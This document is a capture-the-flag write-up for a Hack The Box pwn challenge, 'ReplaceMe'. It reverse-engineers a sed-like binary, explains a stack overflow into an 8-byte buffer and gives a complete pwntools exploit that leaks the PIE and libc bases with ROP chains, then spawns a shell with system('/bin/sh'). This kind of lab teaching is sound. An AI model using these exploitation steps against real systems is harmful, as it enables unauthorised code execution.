

# Description

>
> This useful interactive SED-like utility was shared with me to use, can you make sure it is safe?

# Reverse Engineering

So let's start with `checksec` and analysis the `decompile` code in IDA

```sh
[*] '/home/alter/lab/HTB/chal/pwn/ReplaceMe/replaceme'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

We can see that there is a `64-bit` ELF and have no `Canary`, so we can perform some `Buffer Overflow` attacks

From the `IDA` analysis, we can see the `main` function as follows:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx
  __int64 v4; // rcx
  __int64 v5; // r8
  __int64 v6; // r9

  setup(argc, argv, envp);
  puts("Welcome to the string replacement service!");
  puts("\nTo get started, please enter the string you would like to change.");
  ask_input("Input: ", &input, 128LL);
  puts("\nNow, please enter the replacement string in SED format (e.g. s/old/new/).");
  ask_input("Replacement: ", &replacement, 128LL);
  do_replacement((__int64)"Replacement: ", (__int64)&replacement, v3, v4, v5, v6);
  return 0;
}
```

This function sets up a string replacement service. It first asks the user for an `input string`, then prompts them to enter a `replacement pattern` in `SED` format `(e.g., s/old/new/)`. Finally, it calls `do_replacement` to process the input. The additional parameters (`v3`, `v4`, `v5`, `v6`) suggest that the function might involve more than just a simple text substitution.

```c
ssize_t __fastcall ask_input(const char *s, void *buf, int nbytes)
{
  fwrite("\x1B[33m[?]\x1B[0m ", 1uLL, 0xDuLL, stdout);
  fputs(s, stdout);
  return read(0, buf, nbytes);
}
```

And the `ask_input` using `read` function to read our `input`. One special thing is read function will not add the `NULL` byte at the end of our string

Next we will go to `do_replacement` function which play a major role in this program

```c
int __fastcall do_replacement(__int64 Replacement:_, __int64 p_replacement)
{
  char outputBuffer[8]; // [rsp+0h] [rbp-C0h] BYREF
  __int64 v4; // [rsp+8h] [rbp-B8h]
  __int64 v5; // [rsp+10h] [rbp-B0h]
  __int64 v6; // [rsp+18h] [rbp-A8h]
  __int64 v7; // [rsp+20h] [rbp-A0h]
  __int64 v8; // [rsp+28h] [rbp-98h]
  __int64 v9; // [rsp+30h] [rbp-90h]
  __int64 v10; // [rsp+38h] [rbp-88h]
  __int64 v11; // [rsp+40h] [rbp-80h]
  __int64 v12; // [rsp+48h] [rbp-78h]
  __int64 v13; // [rsp+50h] [rbp-70h]
  __int64 v14; // [rsp+58h] [rbp-68h]
  __int64 v15; // [rsp+60h] [rbp-60h]
  __int64 v16; // [rsp+68h] [rbp-58h]
  __int64 v17; // [rsp+70h] [rbp-50h]
  __int64 v18; // [rsp+78h] [rbp-48h]
  int tailLength; // [rsp+84h] [rbp-3Ch]
  void *dest; // [rsp+88h] [rbp-38h]
  __int64 oldOccurrencePos; // [rsp+90h] [rbp-30h]
  int replacementLength; // [rsp+9Ch] [rbp-24h]
  _BYTE *replacementEndDelimiter; // [rsp+A0h] [rbp-20h]
  int oldStringLength; // [rsp+ACh] [rbp-14h]
  void *newReplacementStart; // [rsp+B0h] [rbp-10h]
  const char *oldString; // [rsp+B8h] [rbp-8h]

  *(_QWORD *)outputBuffer = 0LL;
  v4 = 0LL;
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0LL;
  v12 = 0LL;
  v13 = 0LL;
  v14 = 0LL;
  v15 = 0LL;
  v16 = 0LL;
  v17 = 0LL;
  v18 = 0LL;

  // Syntax: "s/old/new/"
  if ( replacement != 's' || n47 != '/' )
    error("Missing 's/' at the beginning of the replacement string.");

  oldString = (const char *)&src_;
  newReplacementStart = (void *)find((__int64)&src_, "/", 128);
  if ( !newReplacementStart )
    error("Missing '/' in between old and new.");

  oldStringLength = (_DWORD)newReplacementStart - (_DWORD)oldString;
  *(_BYTE *)newReplacementStart = 0;
  newReplacementStart = (char *)newReplacementStart + 1;
  replacementEndDelimiter = (_BYTE *)find((__int64)newReplacementStart, "/", 128);

  if ( !replacementEndDelimiter )
    error("Missing '/' after the replacement.");

  replacementLength = (_DWORD)replacementEndDelimiter - (_DWORD)newReplacementStart;
  *replacementEndDelimiter = 0;
  oldOccurrencePos = find((__int64)&input, oldString, 128);
  if ( !oldOccurrencePos )
    error("Could not find old string in input.");

  dest = outputBuffer;
  tailLength = strlen((const char *)(oldStringLength + oldOccurrencePos));
  memcpy(dest, &input, oldOccurrencePos - (_QWORD)&input);
  dest = (char *)dest + oldOccurrencePos - (_QWORD)&input;
  memcpy(dest, newReplacementStart, replacementLength);
  dest = (char *)dest + replacementLength;

  if ( tailLength > 0 )
    memcpy(dest, (const void *)(oldOccurrencePos + oldStringLength), tailLength);
  success("Thank you! Here is the result:");

  return fputs(outputBuffer, stdout);
}
```
- `find()`
  ```c
  __int64 __fastcall find(__int64 src, const char *s, int i)
  {
    int n; // [rsp+28h] [rbp-8h]
    int j; // [rsp+2Ch] [rbp-4h]

    n = strlen(s);
    for ( j = 0; j < i; ++j )
    {
      if ( !strncmp((const char *)(src + j), s, n) )
        return j + src;
    }
    return 0LL;
  }
  ```

Let's break down this function to know what it does:

:::tip[CODE BREAK DOWN]
- Variable Initialization:

  ```c
  char outputBuffer[8]; // Small buffer (potential overflow risk)
  __int64 v4, v5, v6, ..., v18;
  int tailLength, replacementLength, oldStringLength;
  void *dest, *newReplacementStart;
  __int64 oldOccurrencePos;
  const char *oldString;
  _BYTE *replacementEndDelimiter;
  ```

  - `outputBuffer[8]` is a small buffer meant to store the final modified string. However, since it is only 8 bytes, it cannot safely store most results, creating a potential buffer overflow risk.
  Several unused variables (v4 to v18) could be compiler optimizations, debugging artifacts, or placeholders for stack alignment.
  - Key variables:
    - `oldString`: Holds the substring to be replaced.
    - `newReplacementStart`: Pointer to the replacement substring.
    - `replacementEndDelimiter`: Pointer to the delimiter / marking the end of the replacement.
    - `oldOccurrencePos`: Position of the old string in the user input.
    - `dest`: Pointer used to construct the new modified string.

- Checking the Replacement String Format:

  ```c
  if ( replacement != 's' || n47 != '/' )
    error("Missing 's/' at the beginning of the replacement string.");
  ```

  - The function ensures the replacement string starts with s/.
  - If it doesn’t, an error is displayed: `Missing 's/' at the beginning of the replacement string.`

-  Extracting old and new Strings:

      ```c
      oldString = (const char *)&src_;
      newReplacementStart = (void *)find((__int64)&src_, "/", 128);
      if ( !newReplacementStart )
        error("Missing '/' in between old and new.");
      ```

      - `find()` locates the first / that separates the old string from the new string.
      - If it doesn’t exist, an error is thrown: `Missing '/' in between old and new.`

    - Extracting `oldStringLength`

      ```c
      oldStringLength = (_DWORD)newReplacementStart - (_DWORD)oldString;
      *(_BYTE *)newReplacementStart = 0;
      newReplacementStart = (char *)newReplacementStart + 1;
      ```

      - Calculates the length of the old string.
      - Null-terminates the `oldString`, ensuring it is properly isolated.
      - Moves the pointer to the start of the new replacement string.

    - Finding End of `new` String
      ```c
      replacementEndDelimiter = (_BYTE *)find((__int64)newReplacementStart, "/", 128);
      if ( !replacementEndDelimiter )
        error("Missing '/' after the replacement.");
      ```

      - The function finds the end delimiter / marking the end of the replacement string.
      - If it doesn’t exist, an error is thrown: `Missing '/' after the replacement.`

    - Extracting `replacementLength`
      ```c
      replacementLength = (_DWORD)replacementEndDelimiter - (_DWORD)newReplacementStart;
      *replacementEndDelimiter = 0;
      ```

      - Calculates the length of the new replacement string.
      - Null-terminates it to ensure clean processing.

- Searching for the Old String in Input

  ```c
  oldOccurrencePos = find((__int64)&input, oldString, 128);
  if ( !oldOccurrencePos )
    error("Could not find old string in input.");
  ```

  - Searches for oldString in the user-provided input string.
  - If not found, an error is thrown: `Could not find old string in input.`

- Constructing the New Output

    ```c
    dest = outputBuffer;
    tailLength = strlen((const char *)(oldStringLength + oldOccurrencePos));
    ```
    - `tailLength` stores the remaining length of the string after `oldString` is found.

  - Copying the First Part (Before `oldString`)

    ```c
    memcpy(dest, &input, oldOccurrencePos - (_QWORD)&input);
    dest = (char *)dest + oldOccurrencePos - (_QWORD)&input;
    ```

    - Copies the part of the input before `oldString` into `outputBuffer`.

  - Copying the Replacement String
    ```c
    memcpy(dest, newReplacementStart, replacementLength);
    dest = (char *)dest + replacementLength;
    ```

    - Copies the new replacement string into `outputBuffer`.

  - Copying the Remaining Part (After `oldString`)
    ```c
    if ( tailLength > 0 )
      memcpy(dest, (const void *)(oldOccurrencePos + oldStringLength), tailLength);
    ```

    - If there is content after `oldString`, it copies the remaining part.
:::

This function will replace the string we specify in the format `s/old/new/`. And the way it identifies the strings `old` and `new` is based on the `/` and `s/` characters.

# Exploit Development

So we now know how `do_replacement` function works, we know that our `input` will store that the stack by the first `memcpy` then our `replacement` will append after that `input`



With that, we can perform a `Buffer Overflow` attack, by letting the first input is `<padding> + <string need to replace>` and then the second input is `payload`

We know that the `ask_input` function uses `read` to read our input, so if our string connects to some memory address, it only stops when it encounters a null byte. So that we can do `Partial Overwrite` + `Leak address` at the same time. The reason we do `Partial Overwrite` is because `PIE` is enabled, but the last byte of each address is still the same because that is the `offset` from `base`

So that my exploit will be:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./replaceme_patched', checksec=False)
libc = exe.libc

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript='''

        b*do_replacement+236
        b*do_replacement+544
        c
        '''.format(**locals()), *a, **kw, aslr=False)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw, aslr=False)

p = start()

# ==================== EXPLOIT ====================

def parse(_match, replace):
    """Creates a pattern using 's/match/replace/' format"""
    prefix = b"s"
    slash = b"/"
    pattern = prefix + slash + _match + slash + replace + slash
    return pattern

def exploit():

    # Initial buffer setup
    padding_string = b"A" * 124 + b"B" * 4
    _match = b"B" * 4

    # Stage 1: Leak executable base address
    replace = b"C" * 76 + p8(0x4e)
    pattern = parse(_match, replace)
    sa(b"Input:", padding_string)
    sa(b"Replacement:", pattern)
    ru(b"result:\n")
    data = rl()

    # Calculate executable base address
    exe.address = u64(data[200:200 + 6].ljust(8, b"\x00")) - exe.sym["main"]
    slog("Exe base", exe.address)

    # Setup ROP chain for libc leak
    rop = ROP(exe)
    pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
    ret = pop_rdi + 1

    # Stage 2: Leak libc address using puts
    payload = flat([
        pop_rdi,
        exe.got["puts"],
        exe.plt["puts"],
        exe.sym["main"]
    ])
    replace = b"C" * 76 + payload
    pattern = parse(_match, replace)

    sleep(1)
    sa(b"Input:", padding_string)
    sa(b"Replacement:", pattern)
    ru(b"result:\n")
    data = rl()

    # Calculate libc base address
    libc.address = u64(data[206:].strip(b"\n").ljust(8, b"\x00")) - libc.sym["puts"]
    slog("libc base", libc.address)

    # Stage 3: Execute system("/bin/sh")
    sh = next(libc.search(b"/bin/sh\0"))
    system = libc.sym["system"]
    payload = flat([
        pop_rdi,
        sh,
        system
    ])
    replace = b"C" * 76 + payload
    pattern = parse(_match, replace)

    sleep(1)
    sa(b"Input:", padding_string)
    sa(b"Replacement:", pattern)

    sl(b"cat flag.txt")  # Get the flag

    interactive()

if __name__ == '__main__':
    exploit()
```
